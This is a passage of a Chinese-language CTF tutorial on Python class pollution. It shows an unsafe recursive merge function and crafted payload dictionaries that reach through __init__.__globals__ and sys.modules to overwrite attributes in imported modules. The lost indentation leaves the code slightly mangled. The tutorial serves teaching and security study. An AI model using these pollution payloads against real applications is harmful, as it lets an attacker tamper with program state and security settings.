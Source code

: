 ```python
```
可以看到实例当中我们通过这个属性来改变了全局变量中的x。
所以我们就可以这样去构造一下playload
```python
evil\_playload = {
"\_\_init\_\_":{
"\_\_globals\_\_":{
"flag" : "flag{really\_flag}"
}
}
}
```
这样子就可以去应对于不存在继承链的情况
Question2
=========
我们再想要一个场景，虽然说在一些题目场景来说，大多都是在main.py中去import一个test.py，并且关系比较简单的时候，通常都可以利用上面的方法来进行污染，当关系比较复杂的时候就比较麻烦，例如多层import 或者导入第三方库来导入的时候比较麻烦，这里就提供了几个方法
Module sys
----------
我们这里就可以利用sys来实现。这个应该不用多说了
main.py
```python
import test1
import sys
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '\_\_getitem\_\_'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)
class Test():
def \_\_init\_\_(self):
pass
evil\_playload = {
"\_\_init\_\_":{
"\_\_globals\_\_":{
"sys":{
"modules":{
"test1":{
"Test1": {
"flag" :"flag{really\_flag}"
}
}
}
}
}
}
}
test = Test()
print(test1.Test1.flag)
merge(evil\_playload,test)
print(test1.Test1.flag)
```
test1.py
```python
class Test1:
flag = "flag{fake\_flag}"
```
